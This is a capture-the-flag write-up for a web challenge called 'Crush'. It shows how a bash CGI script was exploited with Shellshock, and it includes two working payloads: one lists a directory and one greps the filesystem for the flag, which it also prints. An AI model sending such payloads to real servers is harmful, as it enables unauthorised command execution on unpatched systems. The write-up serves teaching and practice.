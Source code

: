 # Crush

* The website was static! Tried getting information from robots.txt, sitemap but 404!
* Then after reading source, I found this url http://jh2i.com:50020/cgi-bin/crush.sh  
     `Dudes, woah! This is bash, duuuudddddeeeee.`
* Then I have tried the SHELLSHOCK! and it worked!
    > ` () { :; }; echo; echo; /bin/bash -c 'ls -la'`

    ![Shellshock](1.png)

* Now we have the shell, we still need to find the flag. I have looked at Apache directories, Apache config files, CGI directory, but there was nothing. So I had to do this!
    > `() { :; }; echo; echo; /bin/bash -c 'grep -ir LS{ /'`

    ![Flag](2.png)

* And the flag was in the `home` directory!

    > ### LLS{woah_dude_radical_shellshock}
